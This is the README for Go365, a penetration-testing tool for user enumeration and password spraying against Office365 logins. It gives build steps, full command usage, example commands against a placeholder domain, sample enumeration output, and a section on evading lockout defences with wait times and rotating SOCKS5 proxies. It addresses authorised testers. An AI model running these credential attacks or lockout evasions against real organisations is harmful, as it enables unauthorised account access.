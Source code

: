 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.


##### Read these three bullets!
- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.


## Obtaining

#### Option 1
Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2
Download the source and compile locally.
1. Install Go.
2. Go get some packages:
	```go get github.com/beevik/etree
	go get github.com/fatih/color
	go get golang.org/x/net/proxy```
3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

	```go build Go365.go```
5. Run the resulting binary and enjoy :)


## Usage
``` 
$ ./Go365 -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.1
 Authors: h0useh3ad, paveway3, S4R1N

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

   Required:
     -ul <file>             Username list to use
                              - file should contain one username per line WITHOUT "@domain.com"
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -d <string>            Domain to test
                              (-d testdomain.com)

   Opions:
     -w <int>              Time to wait between attepmts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -o <string>           Output file to write to
                              - Will overwrite!
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)

 Examples:
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt

```



### Examples
_no u_




## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since both valid and invalid will randomly report that their accounts have been locked out**.
```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```


This is a defensive mechanism triggered by the number of **valid** user queries within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.



### Countering Defenses
The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of 5 seconds is recommended. ``` -w 5```

Note: Proxy options have only been tested on SSH dynamic proxies. 


Create a bunch of SOCKS5 proxies and make a file that looks like this:
```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```
The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

 ```-w 5 -proxyfile ./proxies.txt```


### Example
Watch this tool in action! https://www.youtube.com/watch?v=b9CK37sqoz0
